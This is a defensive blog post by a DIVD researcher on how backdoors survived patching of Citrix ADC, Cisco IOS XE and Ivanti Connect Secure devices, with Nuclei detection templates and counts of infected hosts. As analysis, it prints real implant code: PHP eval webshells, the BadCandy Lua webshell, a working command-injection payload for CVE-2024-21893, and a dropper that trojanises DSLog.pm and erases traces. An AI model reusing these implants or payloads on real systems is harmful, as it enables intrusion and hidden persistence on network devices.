

Summary:
This blog explores three real-world cases—Citrix ADC (CVE-2023-3519), Cisco IOS XE (CVE-2023-20273), and Ivanti Connect Secure (CVE-2024-21893)—where patching alone failed to remove persistent backdoors from edge devices.
We detail how these implants worked, how they evaded detection, and how we developed ethical scanning methods at DIVD to detect their remnants through behavioral side channels.
Each case shows that compromise can survive remediation, and why defenders must look beyond patch status to detect real risk.
On the internet’s edge, patching is no longer enough. With attack waves seemingly becoming more opportunistic, it is also important to look for signs that an edge device has already been compromised.
Over the past few years, I’ve notified thousands of organizations about critical vulnerabilities in their VPNs, firewalls, load balancers, and routers. Very often, the actual patching takes a while, or our notification takes some time to arrive. Some organizations may patch by themselves, wondering why the notification they received is relevant at all. They may not realize the uncomfortable truth: patching doesn’t undo compromise.
Attackers that target edge devices often exploit a narrow window of exposure, with 28.3% of vulnerabilities being exploited within a single day of their CVE disclosure in 2025! Some of these exploit waves leave implants that persist even after the initial vulnerability is closed, which is why it’s so important to verify that the underlying system hasn’t been compromised.
The following post is about what we miss when we treat patching as the finish line and why public-interest researchers must go further: scanning not just for vulnerabilities, but for the residue of compromise.
Backdoors after the fix
Our dependency on edge devices has drastically increased since the COVID-19 pandemic, as they support the possibility to work remotely. They’re externally reachable, typically trusted by internal networks, and not always monitored with the same rigor as desktop endpoints or cloud workloads. This, among other reasons, makes edge devices a high-value target. When an attacker gets in through a zero-day or n-day vulnerability, their goal isn’t just access. It’s persistence.
At DIVD, we’ve seen this firsthand. In multiple investigations, such as DIVD-2023-00033, by the time a vendor issues a patch and the admin applies it, the exploit path may be closed, but a backdoor is already installed. These aren’t theoretical risks. From simple PHP eval() implants to backdoors and credential stealers embedded in existing code, masked, and even re-signed by the malware itself, adversaries are developing significant capability in this area and are increasingly treating edge devices as a beachhead.
Some of these implants prevent or survive firmware updates, evade scans for Indicators of Compromise (IoCs), and blend into system components. Yet, after patching, many operators seem to stop looking. The logs are cleared, the traffic looks clean, the box is assumed safe. However, unless we actively look for signs of compromise, patching may only treat the symptom, not the infection.
Finding what the patch missed
Despite vendors releasing patches and integrity checks, we’ve repeatedly encountered edge systems that remain compromised. This makes backdoors an interesting case for our public-interest scanning at DIVD. What follows are anonymized cases that illustrate the gap between vulnerability remediation and true system recovery, and why operators need to look further than just the vulnerability. An important discussion in this context is how to approach the backdoor ethically as I previously discussed in my post on scanning ethics.
Not triggering any unintended behavior is essential, so the scanning methodology discussed below for each CVE does not focus on directly using the backdoor to confirm its presence. While this is possible in many cases through the use of magic bytes, keys, or HTTP parameters, focusing on side channels ensures the proportionality of the scan.
| Appliance | Vulnerability | Response signature | Scanning method |
|---|---|---|---|
| Citrix ADC NetScaler | CVE-2023-3519 | HTTP 201 on v1, empty HTTP 404 on v2. | Scan for HTTP 201 or empty 404 (without Content-Length) on known PHP paths. |
| Cisco IOS-XE | CVE-2023-20198 | Fake 404 Not Found page on v1, shell version or 18-character string on v2. | Scan by adding %25 for the first version and checking for 404 Not Found, scanning by using the logon_hash=1 parameter for the second version. |
| Ivanti Connect Secure | CVE-2024-21893 | HTTP 200 response on endpoint with random characters or the output of uname -a, expected behavior is a 404. |
Scanning on created files by the exploit on index.txt, index1.txt, or index2.txt. |
Citrix ADC and NetScaler Gateway - CVE-2023-3519
In July 2023, Citrix disclosed CVE-2023-3519, a critical unauthenticated Remote Code Execution vulnerability in Citrix ADC and NetScaler Gateway when configured as a gateway or AAA virtual server. The vulnerability was actively exploited in the wild at the time of disclosure.
To support remediation at scale, DIVD, in collaboration with Fox-IT, initiated an internet-wide scan campaign under investigation DIVD-2023-00030 for the vulnerability and DIVD-2023-00033 for the backdoor campaign. This was one of the first cases where I experienced how quickly attackers can establish persistence before patches are even applied.
Scanning for the Backdoors
The first vulnerability had significant activity around it and many different backdoors. While there was nation state activity around this vulnerability, with a suspected Chinese threat actor spreading implants (dubbed SECRETSAUCE), it is unclear whether the shell we investigated was criminal or nation-state. On July 20th, 2023, implants started appearing. While the nation state shells appeared under the /var/vpn/themes directory, were asymmetric, and did not contain any clear mistakes, the criminal webshell did and started appearing in the /logon/LogonPoint/uiareas directory.
<?php http_response_code(201); @eval($_POST[5]);
Listing 1: Citrix Webshell version 1
This first version of the webshell (illustrated in Listing 1) was a simple PHP eval backdoor that returns an HTTP 201 (created) response code and passed the value of POST parameter 5 to PHP eval(). The mistake here is that this backdoor introduces a sidechannel: if the endpoint does not exist, it returns HTTP 404 as the response code. Due to the order of the statements, it will return HTTP 201 regardless of the eval() call succeeding. This allowed us to scan for HTTP 201 as the response code.
id: citrix-implant-cve-2023-3519
info:
name: Citrix CVE-2023-3519 Implant Scan
author: DIVD-NL
severity: critical
http:
- method: POST
path:
- "{{BaseURL}}/logon/LogonPoint/uiareas/{{uri}}"
payloads:
uri:
- "{{filename:common_php_filenames.txt}}"
matchers:
- type: status
status:
- 201
Listing 2: Nuclei scanning template for the Citrix Webshells
This backdoor was included under filenames that match the most common PHP filenames, among which prod.php, log.php, logout.php. This allowed us to iterate over the list of filenames and query the target system for the presence of the backdoor. The downside of this is that, given each system would have to accept a few thousand requests from us, we had to diffuse scan targets and scan over a prolonged time as to not overwhelm systems with our scanning. The scan template is shown in Listing 2.
On July 21st, however, the implant moved. There was a sudden drop in vulnerable devices as the old implants seemed to have been used to deploy a newer, more ‘sophisticated’ implant. As shown in Listing 3, instead of returning an HTTP 201 response, the implant now returns an empty HTTP 404 and introduced a key to the eval() call. This functions as a basic authentication mechanism.
cp /bin/sh /var/nss && chmod +s /var/nss && mkdir /netscaler/ns_gui/epa/scripts/[redacted];
echo '<?php http_response_code(404); @eval($_POST[redacted]);' >
/netscaler/ns_gui/epa/scripts/[redacted]/[redacted].php
Listing 3: Evolution of the Citrix Webshell to further obfuscate
The same mistake as with the previous implant was repeated here, though. Returning an empty HTTP 404 response is atypical for Citrix software. It typically returns an HTTP 302 or at least contains some headers (in particular a Content-Length header). So this time, we could scan for that. This led us to refine the scanning template for 404 anomalies (Listing 4).
id: citrix-implant-cve-2023-3519-v2
info:
name: Citrix CVE-2023-3519 Implant Scan - v2
author: DIVD-NL
severity: critical
http:
- method: POST
path:
- "{{BaseURL}}/logon/LogonPoint/uiareas/{{filename}}"
payloads:
filename:
- "{{filename:common_php_filenames.txt}}"
matchers-condition: and
matchers:
- type: status
status:
- 404
- type: regex
part: header
negative: true
regex:
- '(?i)content-length:'
Listing 4: Nuclei scanning template for the updated Citrix Webshells
Results: increasing global overview with 759%
Together with Fox-IT, we scanned 264.000 IP addresses. Of these IPs, 31.127 Citrix hosts were vulnerable at that time. Of these 31.127 vulnerable hosts, we found 2491 implants worldwide, nearly eight times more than were previously known. As Figure 1 shows, Europe and Asia were popular in particular. Through collaboration with various channels such as The Shadowserver Foundation, government CSIRTs, and directly notifying, we could decrease the number of backdoors steadily over the months after.

Cisco IOS-XE - CVE-2023-20273
In late September 2023, Cisco disclosed CVE-2023-20198, a critical unauthenticated Remote Code Execution vulnerability affecting the Web UI of Cisco IOS-XE devices. The bug allowed attackers to create privileged user accounts without authentication, often as a precursor to installing a persistent implant via the vulnerability. Once deployed, the implant allowed arbitrary command execution over HTTPS and could persist across reboots in some of the cases.
This vulnerability saw an explosive amount of exploit activity as well, with a threat actor installing the BadCandy malware on a global scale. DIVD scanned for these implants under investigation DIVD-2023-00038.
Scanning for the Backdoors
The implant installed using this vulnerability, called BadCandy, is a bit more complex than the previous implants. BadCandy is a Lua-based webshell and consists of 29 lines of code that facilitate arbitrary command execution and is disguised as an Nginx configuration. The attacker can use the webshell by creating HTTP POST requests the /webui/logoutconfirm.html endpoint.
location /webui/logoutconfirm.html {
add_header Content-Type text/html;
add_header Cache-Control 'no-cache, no-store, must-revalidate';
add_header Pragma no-cache;
add_header Strict-Transport-Security "max-age=31536000; includeSubdomain";
content_by_lua_block {
local method = ngx.req.get_method()
local headers = ngx.req.get_headers()
local params = ngx.req.get_uri_args()
local authorized = true
if (method == "POST" and params ~= nil) then
if (headers["Authorization"] ~= nil ) then
local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
local f = io.popen("","r")
if (f ~= nil) then
local shasum = f:read("*all")
shasum = string.lower(shasum)
if string.find(shasum, "<redacted>") then
authorized = true
end
f:close()
end
end
end
if (authorized == true) then
ngx.req.read_body()
local body = ngx.req.get_body_data()
if (params["menu"] ~= nil and params["menu"] ~= "") then
content = "/2010202301/"
elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "1") then
content = "<redacted>"
elseif (params["logon_hash"] ~= niL and params["logon_hash"] == "<redacted>>" and params["common_type"] ~= nil) then
if (params["common_type"] == "subsystem") then
local f = io.popen(body, "r")
if (f ~= nil) then
content = f:read("*all")
f:close()
end
elseif (params["common_type"] == "iox") then
ngx.req.set_header("Priv-Level", "15")
local result = ngx.location.capture("*/luas", {method=ngx.HTTP_POST, body=body})
local response = result.body
if not (response == nil or response == 0) then
content = response
end
end
end
end
end
if (authorized == true) then
ngx.status = 200
ngx.say(content)
else
local result = ngx.location.capture("/internalWebui/login.html", {method = ngx.HTTP_GET})
if result then
ngx.status = result.status
if result.body then
ngx.say(result.body)
end
end
end
}
}
Listing 5: BadCandy implant for Cisco IOS-XE - version 1
Listing 5 shows the full logic of the initial BadCandy implant, disguised as an Nginx config block. In most early instances of the backdoor, if the ?logon_hash=1 parameter is set, it will return an 18-character hexadecimal string. If the common_type parameter is subsystem, it executes the request body, and if the common_type parameter is iox, it will execute on Privilege Level 15. The login_hash parameter also allowed including a 40-character hash that serves as an authentication mechanism for the command execution functionality.
Around October 20, 2023, a second version of the implant appeared that included an additional authentication mechanism, shown in Listing 6. The second version included a preliminary check for an HTTP Authorization header. Cisco Talos suspected at the time that this was a reactive measure to prevent the identification of compromised systems. Later, a third version of the BadCandy implant would include an additional check for a X-Csrf-Token HTTP header in a similar fashion. Strangely enough, the third version would qualify an incoming request as authorized as long as one of the two headers would be correct.
if (method == "POST" and params ~= nil) then
if (headers["Authorization"] ~= nil ) then
local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
local f = io.popen("","r")
if (f ~= nil) then
local shasum = f:read("*all")
shasum = string.lower(shasum)
if string.find(shasum, "<redacted>") then
authorized = true
end
f:close()
end
end
end
Listing 6: Introduced Authorization header mechanism to BadCandy
After the Proof of Concept (POC) exploit became public on October 30th, exploitation attempts skyrocketed. Most of these attacks were opportunistic, as is common with popular POCs. A generic way of probing systems for the implant without interacting with the backdoor’s core functionality is to make a request to the uri /%25 on the system (as shown in Listing 7). If the implant is listening, it will return an HTTP 404 response (or a decoy login page in the third version). This is what we used at DIVD to scan for compromised devices with the below template. Scanning for the /webui/logoutconfirm.html endpoint was not an option, as we did not want to interact with the implant’s core functionality and accidentally trigger any unintended effects.
id: cisco-ios-implant-detection-CVE-2023-20273
info:
name: Cisco IOS-XE Mass Exploitation CVE-2023-20273
author: DIVD-NL
severity: critical
http:
- method: POST
path:
- "{{BaseURL}}/%25"
matchers:
- type: word
words:
- "<head><title>404 Not Found</title></head>"
Listing 7: Nuclei scanning template to detect BadCandy implants
Additionally, after the generic attempt started to lose effectiveness, we would scan for the 18-character string and version number (indicated by content = "/2010202301/" in Listing 5) that would be returned upon setting the logon_hash parameter, as shown in Listing 8. The cat- and mouse game that resulted from actors changing the implant, forcing us to change our scanning methodology, interestingly shows a textbook attacker-defender dynamic. Again, patching the vulnerability didn’t mean the system was clean, as the number of compromised appliances skyrocketed shortly after the vulnerability was published.
id: cisco-ios-implant-detection-CVE-2023-20273-v2
info:
name: Cisco IOS-XE Mass Exploitation CVE-2023-20273 v2
severity: critical
http:
- method: POST
path:
- "/webui/logoutconfirm.html?logon_hash=1"
matchers:
- type: regex
regex:
- ".{18}"
part: body
- method: POST
path:
- "/webui/logoutconfirm.html?menu=1"
matchers:
- type: word
words:
- "1010202301"
Listing 8: Nuclei scanning template to detect BadCandy implants after generic approach no longer worked accurately
Results: a mapped-out global infection flare-up
Roughly three weeks after the vulnerability was published, on October 18, 2023, we measured a total of 72.795 backdoored devices. The United States leads the list by a considerable margin, likely due to its large enterprise router footprint and widespread exposure of the Web UI. Southeast Asia and Latin America also show significant concentrations. Compared to the distribution of the Citrix ADC investigation, the countries affected the most seem to be completely different.
>>> sorted_data = dict(sorted(countries.items(), key=lambda item: item[1], reverse=True))
>>> items = list(sorted_data.items())
... for i in range(0, 20, 5):
... line = items[i:i+5]
... print(" ".join(f"{k}: {v}" for k, v in line))
...
US: 5218 PH: 3857 CL: 2901 MX: 2568 IN: 2154
TH: 1862 PE: 1829 BE: 1321 AT: 1105 BR: 1073
CH: 1043 SG: 986 GB: 966 IT: 964 AU: 875
DE: 860 NL: 750 EC: 714 FR: 696 RU: 620
Listing 9: Top 20 countries with BadCandy implants on October 18th, 2023
All system owners that were compromised received a notification about the implant, steps to remediate, and advice on how to proceed. While Cisco themselves attempted to bury these numbers, collective effort from the industry brought down the infection rate and number of compromised hosts significantly over the months after.
Ivanti Connect Secure - CVE-2024-21893
A few months later, on January 31st, 2024, Ivanti released fixes to address four vulnerabilities. One of these, CVE-2024-21893, which is a Server-Side Request Forgery (SSRF) vulnerability that affected the SAML module. Researchers from Rapid7 and AssetNote released a working POC that anyone could use and within hours of its release, attacks were identified targeting this SAML vulnerability. One of the first to publish a report on the implants resulting from these attacks was Orange Cyberdefense, who named it the DSLog backdoor.
As with the previous cases, post-exploitation scanning revealed compromises that would have gone unnoticed by standard vulnerability checks.
Scanning for the Backdoors
An important aspect of scanning for the DSLog backdoor is the first stage of the exploit, shown in Listing 9. The payload outputs either a set of random characters or the output of uname -a to a publicly accessible file (index.txt, index1.txt, index2.txt, etc.). This seemed to be reconnaissance activity (shown in Listing 10) to confirm that the exploit worked on the target device, an idea that is corroborated by Orange Cyberdefense. Interestingly, in 1cases where the attackers cleared the log files, the uname -a output offered a timestamp on the time of compromise, which is temporal evidence for the breach.
# Base64 encoded request
https://127.0.0.1:8090/api/v1/license/keys-status/;echo ZWNobyAkKHVuYW1lIC1hO2lkKT4vaG9tZS93ZWJzZXJ2ZXIvaHRkb2NzL2RhbmEtbmEvaW1ncy9pbmRleDIudHh0|/usr/bin/base64 -d | /bin/bash;
# Decoded command
https://127.0.0.1:8090/api/v1/license/keys-status/;echo $(uname -a;id)>/home/webserver/htdocs/dana-na/imgs/index2.txt|/usr/bin/base64 -d | /bin/bash;
# Output in index2.txt
Linux localhost2 2.6.32-00032-g2005e8d-dirty #1 SMP Thu Jun 22 03:40:39 EDT 2023 x86_64 x86_64 x86_64 GNU/Linux uid=0(root) gid=0(root) groups=0(root)
Listing 10: SSRF payload for CVE-2024-21893
With the knowledge of now, the methodology and characteristics of the backdoor closely resemble the suspected China-nexus espionage actor tracked as UNC5221 (Mandiant) or UTA0178 (Volexity). At the time, IBM wrote a blogpost that mentioned the involvement of UNC5221 based on other reporting, but also admitted they could not corroborate these findings with sufficient confidence. The type, way of dropping, and chosen locations of the webshell seem to be similar to the later Ivanti Connect Secure webshells attributed to UNC5221, such as the webshells related to SPAWNANT installer and PHASEJAM dropper.
sub Msg {
my ($event, $level, $data) = @_;
my ($pkg, $file, $line) = caller;
my $ua = $ENV{HTTP_USER_AGENT};
my $req = $ENV{QUERY_STRING};
my $qur = "<redacted>";
my @param = split(/&/, $req);
if (index($ua, $qur) != -1) {
if ($param[1]){
my @res = split(/=/, $param[1]);
if ($res[0] eq "cdi"){ # Include command in cdi parameter
$res[1] =~ s/([a-fA-F0-9][a-fA-F0-9])/chr(hex($1))/eg;
$res[1] =~ tr/!-~/P-~!-O/;
system(${res[1]});
}
}
}
$file = substr ($file, rindex ($file, "/")+1);
# Prevent C printf format codes to make it through...
$data =~ s/%/%%/g;
Msg_impl ($file, $line, $event, $level, $data);
}
Listing 11: Modified function in the /home/perl/DSLog.pm file
Listing 11 shows the altered Msg() function on line 102 in the /home/perl/DSLog.pm file that includes the implant. DSLog.pm is normally a legitimate script that is used to log events on the Ivanti appliance. Commands can be executed through the shell by adding the (URL-encoded) command to the request with the cdi parameter. The added code is injected using the exploit shown in Listing 10, but this time with the base64-encoded payload shown in Listing 12. The payload checks if the device has already been infected, after which it writes the implant to the DSLog file and performs some anti-forensics.
# Set paths to target files
DESTFILE="/home/perl/DSLog.pm"
CLFILE="/home/perl/DSLogMB.pm"
# Check if the file already contains HTTP_USER_AGENT
if cat "$DESTFILE" | grep -q 'HTTP_USER_AGENT'; then
echo 'OK'
else
# Inject Perl code starting at line 102
sed -i '102i\
my $ua = $ENV{HTTP_USER_AGENT};\
my $req = $ENV{QUERY_STRING};\
my $qur = "<redacted>";\
my @param = split(/&/, $req);\
if (index($ua, $qur) != -1) {\
if ($param[1]) {\
my @res = split(/=|,/, $param[1]);\
if ($res[0] eq "cdi") {\
$res[1] =~ s/([a-fA-F0-9][a-fA-F0-9])/chr(hex($1))/eg;\
$res[1] =~ tr/!-/P-~/P-~.!-O/;\
system($res[1]);\
}\
}\
}' "$DESTFILE"
fi
# Sync timestamp of DESTFILE to match CLFILE (anti-forensics)
touch -r "$CLFILE" "$DESTFILE"
# Clear crash dump traces
rm -rf /var/cores/*
# Run a Python warm restart with shellcode injection via base64 decoding
/home/venv3/bin/python3 -c 'import DSMonitor; DSMonitor.warmRestart()' | /usr/bin/base64 -d | /bin/bash
Listing 12: Exploit payload to drop the implant
Because the implant contains a unique key (SHA256 hash) that needs to be included in the User Agent to execute commands, there was no way to directly interact with it. However, the initial stage of the compromise included the creation of a publicly available file that contained predictable output. Therefore, this offered a scanning methodology to at least gain an indication that the implant had been present on the system.
id: CVE-2024-21893
info:
name: DSLog backdoor Ivanti Connect Secure
author: DIVD-NL
severity: critical
variables:
index: ["index.txt", "index1.txt", "index2.txt", "index3.txt", "index4.txt"]
requests:
- method: GET
path:
- "/dana-na/imgs/"
matchers-condition: and
matchers:
- type: word
words:
- "WatchGuard"
part: body
negative: true
- type: dsl
dsl:
- "len(body) > 0 && status_code == 200"
Listing 13: Nuclei scanning template for the DSLog implant
These files offered sufficient coverage to locate the DSLog backdoor in a scanning campaign. We did not have to approach the implant itself, which is always important from the ethics perspective. Instead of probing the implant directly, we scanned for signs of dropped index files using the method in Listing 13. Normally, the Ivanti Connect Secure appliances will return an HTTP 404 upon making a request to an endpoint that does not exist. Therefore, by scanning for HTTP 200 responses on the known indicators and verifying the content of the response, public systems could be scanned for this webshell. The only thing to take into account is to filter out the occasional WatchGuard WAF response.
Results: little but interesting targets
Two weeks after the vulnerability became public, on February 12th, 2024, we conducted a scan for the DSLog backdoor and found 50 backdoored instances in 17 countries. With such little results, it becomes interesting to look at the types of organizations that were backdoored. In this instance, most organizations that were compromised seemed to belong to either the steel, healthcare (robotics), telecommunications, or banking sector.
>>> sorted_data = dict(sorted(countries.items(), key=lambda item: item[1], reverse=True))
>>> items = list(sorted_data.items())
... for i in range(0, 20, 5):
... line = items[i:i+5]
... print(" ".join(f"{k}: {v}" for k, v in line))
...
US: 18 JP: 6 KR: 4 HK: 3 SG: 2
CN: 2 IN: 2 DE: 2 ZA: 2 BH: 2
FR: 1 ES: 1 MY: 1 CA: 1 TR: 1
NL: 1 IT: 1
Listing 14: Countries with DSLog implants on February 12th, 2024.
After conducting a notification campaign and sharing the information through the appropriate channels, the implants were largely taken down. On April 4th, 2024, there were eight remaining implants. These implants are active to this day.
Conclusion: when fixing isn’t enough
Patching is a vital part of vulnerability management, but as the case studies in this blog post show, it is no longer sufficient on its own. Persistent backdoors can survive patch windows, quietly operating long after the initial exploit has been closed. If defenders stop looking once the CVE is fixed, they risk missing the real threat: compromise that has already taken root.
Ethical, public-interest scanning helps fill this gap. By focusing on behavioral residues and side channels, we can responsibly detect implants without triggering them and incorporate this into our scanning routines. As vulnerability researchers and incident responders, our responsibility should extend beyond identifying vulnerabilities alone. Finding these implants using responsible methods is part of a broader mission to protect the public interest and support those who may not even realize they are at risk.
This is a reminder that vulnerability response must move beyond the binary of “patched or not” and instead ask the harder question: was the adversary already inside? Until vendors and defenders treat post-patch compromise as a first-class threat model, this work will remain essential—and at times, the only line of defense. Patching closes the door, but unless we check the locks, the intruder may still be inside.